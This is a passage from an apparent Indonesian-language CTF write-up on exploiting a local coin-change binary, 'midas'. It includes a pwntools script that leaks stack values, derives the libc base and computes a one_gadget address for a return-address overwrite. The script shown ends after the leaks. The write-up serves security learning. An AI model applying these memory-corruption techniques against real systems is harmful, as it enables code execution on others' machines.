 ![Error](/assets/images/CJFinal-3.png)

### Menulis pada return address
Nah bagian ini adalah bagian yang ribet. Karena saya tidak terlalu pandai dalam bidang algoritma, saya hanya lakukan _trail dan error_ sampai dapat cara yang bagus untuk menulis nilai. Setelah beberapa waktu saya perhatikan bahwa memset gak mengubah nilai _return address_ (yalah wkwkw), jadi daripada menulis langsung angka yang besar, dengan perlambat saya menambahkan angka sampai dapat pada nilai yang saya inginkan. Saya harus gunakan faktor dari 3006 dan 3007 agar cepat, menambahkan koin akan mempercepat penambahannya.

Benar-benar cuma _brute force_ sampai dapat. Aduh kenapa gak belajar algoritma lebih lanjut :\(

Berikut exploit lengkap saya. Abaikan while(True), saya gunakan itu karena saya berharap nilai dari alamat one_gadget dan area _executable_ itu positif kecil (kurang dari 300000000)

```python


from pwn import *



def init_coins(num, coins):
  p.sendlineafter("Choice:", '1')
  p.sendlineafter("coins:", str(num))
  for i in coins:
    p.sendlineafter(":", str(i))

def compute(num):
  p.sendlineafter("Choice:", '2')
  p.sendlineafter("value:", str(num))

def end():
  p.sendlineafter("Choice:", '3')


while(True):
  p = process('./midas')
  compute(3011)
  p.recvuntil("with ")
  l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

  compute(3010)
  p.recvuntil("with ")
  l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
  l = int(l, 16)
  print hex(l)

  libc_base = l - 0x2409b
  one_gadget = libc_base + 0x50186


  compute(3007)
  p.recvuntil("with ")
  l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

  compute(3006)
  p.recvuntil("with ")
  l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
  l = int(l, 16)
  print hex(l)
```